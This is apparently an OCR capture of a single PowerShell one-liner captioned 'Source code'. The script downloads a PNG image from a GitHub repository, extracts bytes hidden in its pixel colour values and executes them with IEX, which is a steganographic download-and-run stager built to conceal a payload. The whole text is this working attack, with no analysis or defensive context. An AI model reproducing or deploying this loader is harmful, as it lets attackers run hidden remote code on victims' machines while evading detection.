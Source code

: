 sal a New-Object;Add-Type -A System.Drawing;$g=a System.Drawing.Bitmap((a Net.WebClient).OpenRead("https://github.com/void010/purple/raw/main/Steg_obfuscate/meme.png"));$o=a Byte[] 19200;(0..79)|%{foreach($x in(0..79)){$p=$g.GetPixel($x,$_);$o[($_*80+$x)*3]=$p.B;$o[($_*80+$x)*3+1]=$p.G;$o[($_*80+$x)*3+2]=$p.R}};IEX([System.Text.Encoding]::ASCII.GetString($o[0..16973]))
